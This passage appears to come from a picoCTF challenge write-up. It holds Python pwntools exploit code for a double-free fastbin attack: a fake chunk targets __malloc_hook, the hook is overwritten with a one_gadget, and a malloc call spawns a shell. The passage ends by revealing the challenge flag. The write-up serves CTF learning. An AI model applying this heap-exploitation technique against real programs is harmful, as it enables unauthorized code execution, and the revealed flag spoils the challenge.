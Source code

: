 ```python
    """ Using a debugger again to find the correct padding we need. We don't want to change any other header so we overwrite them with their 
        previous values. Overwrite the free chunk's "next" pointer to __malloc_hook-0x23 - A useful chunk for fastbin attack due to the size 
        it has(0x7f) and the ability it grants in controlling the code flow upon a malloc invokation."""
    fake_bio =  p64(0) + p64(0x21) + '\x00'*0x10 + p64(0) + p64(0x21) + '\x00'*0x10 + p64(0) + p64(0x71) + p64(__malloc_hook_address  - 0x23)
    set_bio('G'*15, fake_bio, 0x70)
    
    """ Allocate a chunk with the size 0x60 - We will get back the pointer we freed while removing "'Y'*15". Will also put __malloc_hook-0x23 
        as the next size in this bin."""
    set_bio('D'*15, 'a', 0x60)
    target_address = one_gadget
    
    """ Pad the bytes between our chunk and __malloc_hook. Overwrite __malloc_hook with a one_gadget we can satisfy."""
    payload = 'Z'*0x13 + p64(target_address)
    set_bio('I'*15, payload, 0x60)
    
    """ Invoke malloc and get a shell."""
    r.sendline('create a')
    r.interactive()
```

![shell](Images/shell.png)  

(Ignore the fl*, I was too lazy to write 'flag.txt').  

The flag is: picoCTF\{4_5pr3e_0f_d0ubl3_fR33_c239ca3c\}  

